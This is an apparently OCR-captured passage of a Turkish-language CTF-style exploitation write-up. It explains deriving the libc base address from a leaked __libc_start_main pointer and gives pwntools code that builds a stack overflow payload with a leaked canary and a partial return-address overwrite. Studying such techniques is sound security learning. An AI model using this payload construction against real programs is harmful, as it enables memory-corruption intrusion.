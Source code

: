 Bizim elde ettiğimiz adresten, __libc_start_main() in başlangıç adresi 0x30 byte sonrasında bulunuyor. Yani eğer biz bulduğumuz adrese 0x30 ekleyip daha sonrasında __libc_start_main()'in offsetini çıkarırsak LIBC BASE adresini bulmuş oluruz.

![libcoff](assets/differ.png)

``` python

LIBC_BASE = int(main_start, 16) - 0x0000000000029dc0 + 0x30
log.info("LIBC Base @:" + hex(LIBC_BASE))

PAYLOAD = b"A".ljust(OFFSET, b"A")
PAYLOAD += p64(int(canary.decode(), 16))
PAYLOAD += p64(0xdeadbeef)
PAYLOAD += b"\x44"
p.clean()
p.send(PAYLOAD)
recieved = p.recvuntil("rid of your laziness: \n")
log.info("Ready to send the actual payload")
libc.address = LIBC_BASE
print(recieved.decode())

p.send(hex(__libc_start_main_loc))
p.send("\n")
p.recvuntil("?: ")
main_start = p.recv(14)


```

LIBC base adresini hesapladıktan sonra programı bir kez daha geri döndürmemiz gerekiyor ki son olarak chain'imizi yollayalım.
